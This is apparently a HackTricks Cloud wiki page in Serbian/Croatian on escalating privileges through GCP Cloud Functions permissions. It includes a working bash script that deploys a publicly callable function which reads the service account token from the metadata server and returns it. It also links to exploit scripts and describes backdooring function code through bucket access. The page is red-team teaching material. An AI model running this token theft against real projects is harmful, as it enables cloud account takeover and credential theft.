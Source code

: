 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Više informacija o Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napadač sa ovim privilegijama može **napraviti novu Cloud Function sa proizvoljnim (malicioznim) kodom i dodeliti joj Service Account**. Zatim, leak-ovati token Service Account-a iz metapodataka kako bi eskalirao privilegije na njega.\
Neke privilegije za aktiviranje funkcije mogu biti potrebne.

Eksploatacijski skripti za ovu metodu mogu se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) i [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), a prebuilt .zip datoteka može se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napadač sa ovim privilegijama može **modifikovati kod funkcije i čak modifikovati prateći servisni nalog** sa ciljem exfiltracije tokena.

{% hint style="danger" %}
Da biste implementirali cloud funkcije, takođe će vam biti potrebne actAs dozvole za podrazumevani servisni nalog za računanje ili za servisni nalog koji se koristi za izgradnju slike.
{% endhint %}

Neke dodatne privilegije kao što su `.call` dozvola za verziju 1 cloudfunctions ili uloga `role/run.invoker` za aktiviranje funkcije mogu biti potrebne.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Ako dobijete grešku `Permission 'run.services.setIamPolicy' denied on resource...` to je zato što koristite parametar `--allow-unauthenticated` i nemate dovoljno dozvola za to.
{% endhint %}

Eksploatacijski skript za ovu metodu možete pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Sa ovom dozvolom možete dobiti **potpisani URL kako biste mogli da otpremite datoteku u funkcijski bucket (ali kod funkcije neće biti promenjen, još uvek ga morate ažurirati)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nisam baš siguran koliko je ova dozvola korisna iz perspektive napadača, ali dobro je znati.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Dajte sebi bilo koju od prethodnih **`.update`** ili **`.create`** privilegija da biste eskalirali.

### `cloudfunctions.functions.update`

Samo imajući **`cloudfunctions`** dozvole, bez **`iam.serviceAccounts.actAs`** nećete moći da ažurirate funkciju, PA TO NIJE VALIDNA PRIVESC.

### Pristup za čitanje i pisanje nad bucket-om

Ako imate pristup za čitanje i pisanje nad bucket-om, možete pratiti promene u kodu i kada god dođe do **ažuriranja u bucket-u, možete ažurirati novi kod sa svojim kodom** tako da će nova verzija Cloud Function-a biti pokrenuta sa dostavljenim backdoored kodom.

Možete proveriti više o napadu u:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Međutim, ne možete ovo koristiti za prethodno kompromitovanje trećih strana Cloud Functions, jer ako kreirate bucket u svom nalogu i date mu javne dozvole tako da eksterni projekat može pisati preko njega, dobićete sledeću grešku:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Međutim, ovo bi moglo biti korišćeno za DoS napade.
{% endhint %}

### Pristup za čitanje i pisanje nad Artifact Registry

Kada se kreira Cloud Function, nova docker slika se šalje u Artifact Registry projekta. Pokušao sam da modifikujem sliku novom, pa čak i da obrišem trenutnu sliku (i `cache` sliku) i ništa se nije promenilo, cloud funkcija nastavlja da radi. Stoga, možda bi **moglo biti moguće zloupotrebiti napad Race Condition** kao sa bucket-om da promenite docker kontejner koji će biti pokrenut, ali **samo modifikovanjem sačuvane slike nije moguće kompromitovati Cloud Function**.

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
